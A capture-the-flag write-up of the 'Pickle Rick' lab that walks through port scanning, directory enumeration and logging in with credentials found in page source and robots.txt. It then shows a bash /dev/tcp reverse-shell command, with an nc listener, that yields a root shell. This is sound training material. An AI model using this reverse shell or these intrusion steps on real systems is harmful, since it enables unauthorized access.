



# Pickle Rick

A Rick and Morty CTF. Help turn Rick back into a human!

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application:

After deploying the machine, I got this IP address: 10.10.103.97

First step I ran a port scan using rust scan then passed the results to nmap for further enumeration.

## Command:
```sh
rustscan -a 10.10.103.97 --ulimit 5000 -- -sV -sC -A 
```
## Results:
```sh
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 74:70:7d:9f:98:e4:cd:52:32:c0:ff:f5:36:e1:d0:ee (RSA)
| ssh-rsa
AAAAB3NzaC1yc2EAAAADAQABAAABgQC1Vs3KBBL61RwHQIuO7T3eipuIl9cCXfeu2r2xeYuOgO3nDc5Ne5Obe3x7
vLHFgmWB+H9XvTfF2V0RzTaMrwbY3kl5SOEyO06li5hsOUkbAX5C0SNy7JuY4LUmO5yMl5uDLIRTnUxiINoQvs73s3
FiW7dW+JSP/g45BIpjcXjmT/PnpJFXdRNFRLM/
Q7qSBBiV9ZzSJaGZ7YTV0eKoTxVzCPgakYFfW73t1vHpbzj8iwsF90evJcJpL+YwngAEs0LouGGYZn5HR7W3OWIGX-
nBGNIl7ckVee+1CpGesNT3Cbo7on1b0QIV7D5V0hBroixInxLkUc+3Htz+2+FfF1a5N31iBDMOcF+lawOjh2l/
7v6q52PKUcDiqMkTikJ5k63rXQM1rLXgmOyQqTFrJ9vDdmw78w6LnJl1li2DxPVkBTDZepLahueKwqw/
+mjuTy4USEO5+eYL1fVtP4mrexN+TeSB6XEZozHnmI9Wg+m8RCZtRjnp/YXLrUxRUGvhUOJk=
|   256 05:f9:06:09:4a:e7:72:4c:db:90:8d:f9:39:36:b0:c7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJYDUeKr/1OZ7U6+X/
d8gUozr2898+u24rcy3LtI+9DFPNDJao7i7d6bAfwLA8q87Iy2PwhvE10Shgd328+GwdI=
|   256 55:28:85:f3:62:63:e3:db:4b:ca:a8:59:76:24:6c:15 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGA6kp/0ZDDDylA9pNJK9A5y/aIMSOfvJYhS739xdVGi
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Rick is sup4r cool

```
We have two open ports that is ssh (22) and http (80).

ssh will need user login details that we don't have yet so we'll skip that and move on to HTTP (80).


# WEB ENUMERATION  
  
## To Do list 

- Visit the site  
- Look around for any useful details  
- View the source code  
- Visit robots.txt  
- Run gobuster  


## The site

From the content, I think I will have to use burp suite at some point.  
But let's continue and come back to it later on.


## Source code


Here I get a username that is good.
- Username: R1ckRul3s

## Robots.txt


Got this text but not sure what it is:  
- "Wubbalubbadubdub"

## Gobuster

## Command
```sh
gobuster dir -u http://10.10.103.97 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
The wordlist was taking some time and giving me lots of errors so I changed to ...../dirb/common.txt



## Run nikto scan


```sh
nikto -h 10.10.103.97
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.103.97
+ Target Hostname:    10.10.103.97
+ Target Port:        80
+ Start Time:         2024-06-21 15:22:25 (GMT3)
---------------------------------------------------------------------------
## /login.php: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/
Web/HTTP/Cookies

```


At least now I know what to do with the username and the other text from robots.txt:  
- username: R1ckRul3s  
- password: Wubbalubbadubdub  

Successful login  


Here we can execute commands.  
Before that, I want to try something.  
I want to get a reverse shell to my machine. Hope it works.  

Here is a bash reverse shell :  

```sh
bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
```

Modified it to work with my IP:

```sh
bash -c 'exec bash -i &>/dev/tcp/$RHOST/1234 <&1'
```

Then made a nc listener on my attacker pc:

```sh
nc -lvp 1234
```

It worked. Now I have a shell....

The user has all root privs.  
# GO GET THE FLAGS!!!